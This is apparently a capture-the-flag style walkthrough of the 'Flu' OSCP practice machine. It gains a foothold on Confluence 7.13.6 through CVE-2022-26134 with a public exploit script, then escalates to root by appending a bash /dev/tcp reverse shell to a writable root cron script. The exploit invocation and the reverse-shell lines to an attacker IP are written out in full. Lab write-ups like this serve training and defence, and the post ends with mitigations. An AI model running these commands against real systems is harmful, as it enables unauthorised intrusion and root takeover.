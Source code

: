 ```yaml
---
title: Flu
date: 2025-05-01
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2022-26134, pspy, cronjobs-privesc ] 
image: flu.webp
media_subpath: /assets/img/posts/2025-05-01-flu/
---
```


## Introduction

In this walkthrough, I targeted a Linux machine where ports 22 and 8090 were discovered open. Upon investigating port 8090, I identified an instance of Atlassian Confluence version 7.13.6. After researching known vulnerabilities, I found a publicly available exploit for this version and successfully gained initial access. During post-exploitation, I suspected a cron job might be running as root. I used `pspy` to monitor processes and confirmed this. By appending a reverse shell to the cron-executed script, I was able to escalate privileges and gain a root shell. Let's start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 8090

- Version - Apache Tomcat (language: en)

## Exploitation

Navigating to website we are greeted with login screen where I tried `admin:admin` but it didn’t work. I saw a version of the software and found an exploit for it:

![image.png](image%202.png)

[https://github.com/jbaines-r7/through_the_wire](https://github.com/jbaines-r7/through_the_wire)

```bash
python3 through_the_wire.py --rhost 192.168.210.41 --rport 8090 --lhost 192.168.45.155 --protocol http:// --reverse-shell
```

Running the exploit script we are in:

![image.png](image%203.png)

We are the only user so we should do Privilege Escalation:

![image.png](image%204.png)

## Privilege Escalation

Let’s first get an interactive shell using bash:

```bash
bash -i >& /dev/tcp/192.168.45.155/8090 0>&1
```

![image.png](image%205.png)

I checked `sudo -l` but it requires password.

I see MySQL server running:

![image.png](image%206.png)

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information 
    - [ ]  Sudo 
    - [ ]  SUID/SGID 
    - [ ]  Capabilities 
    - [ ]  Cron Jobs Abuse 
    - [ ]  Kernel Exploits 
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
- No interesting `SUID` binaries
- No interesting binaries with capabilities
- No cronjobs
- **linpeas**
    
    ![image.png](image%207.png)
    
    `/opt/log-backup.sh` 
    
    `/var/atlassian/application-data/confluence/backups/backup-2025_05_01.zip`
    
- tmux session
    
    ![image.png](image%208.png)
    
- root login
    
    ![image.png](image%209.png)
    

If you found `.sh` and want to check for if it is actually a cron job for the root user check:

1. `/etc/cron.d/` contents, as files here can run arbitrary commands and specify their own user
2. `/var/spool/cron/crontabs/root` - this is **root’s personal crontab**
3. Use `pspy` (if allowed) to **monitor running processes** and confirm if `/opt/log-backup.sh` is being executed by root.

Let’s run [pspy64](https://github.com/DominicBreuker/pspy)

After waiting a bit we can see that `.sh` file is run as cron job by root (UID=0):

![image.png](image%2010.png)

And we own that file.

Let’s add a reverse shell there:

```bash
bash -i >& /dev/tcp/192.168.45.155/4444 0>&1
echo 'bash -i >& /dev/tcp/192.168.45.155/4444 0>&1' >> log-backup.sh
```

And we got a root shell.

![image.png](image%2011.png)

## Mitigation

- **Update Confluence**: Upgrade Atlassian Confluence to the latest supported version, as version 7.13.6 is vulnerable to known remote code execution (RCE) exploits.
- **Restrict External Access**: Limit access to internal applications like Confluence using firewall rules or VPN-based access controls.
- **Harden Cron Jobs**: Ensure all scripts executed via cron are owned by root, non-writable by other users, and reside in secure directories.
- **Minimal User Privileges**: Ensure low-privileged users do not have write access to any files or directories used in scheduled tasks.
